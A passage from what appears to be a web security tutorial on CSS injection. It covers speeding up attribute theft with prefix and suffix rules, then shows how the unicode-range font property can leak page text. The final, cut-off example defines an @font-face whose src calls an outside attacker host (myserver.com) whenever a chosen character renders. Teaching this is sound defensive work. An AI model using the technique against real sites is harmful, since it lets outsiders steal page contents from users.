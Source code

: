If there are not many possible characters in the content, for example, 16 characters, we can directly steal two prefixes and two suffixes at a time. The total number of CSS rules would be `16*16*2` = 512, which should still be within an acceptable range and would further accelerate the process by two times.

In addition to these methods, we can also improve on the server side. For example, using HTTP/2 or even HTTP/3 could potentially speed up the loading of requests and improve efficiency.

## Stealing other things

Besides stealing properties, is there a way to steal other things? For example, other text on the page or even the code inside scripts?

Based on the principles discussed in the previous section, it is not possible. The ability to steal properties is due to the "attribute selector," which allows us to select specific elements. However, in CSS, there is no selector that can select the "content" itself.

Therefore, we need a deeper understanding of CSS and the styles on the webpage to accomplish this seemingly impossible task.

### unicode-range

In CSS, there is a property called "unicode-range" that allows us to load different fonts for different characters. Here is an example taken from [MDN](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face/unicode-range):

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "Ampersand";
        src: local("Times New Roman");
        unicode-range: U+26;
      }

      div {
        font-size: 4em;
        font-family: Ampersand, Helvetica, sans-serif;
      }
    </style>
    <div>Me & You = Us</div>
  </body>
</html>

```

The unicode for `&` is `U+0026`, so only the character `&` will be displayed in a different font, while the rest will use the same font.

Front-end developers may have used this technique before, for example, to display English and Chinese using different fonts. This technique can also be used to steal text on the page, like this:

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "f1";
        src: url(https://myserver.com?q=1);
        unicode-range: U+31;
      }

      @font-face {
        font-family: "f2";
```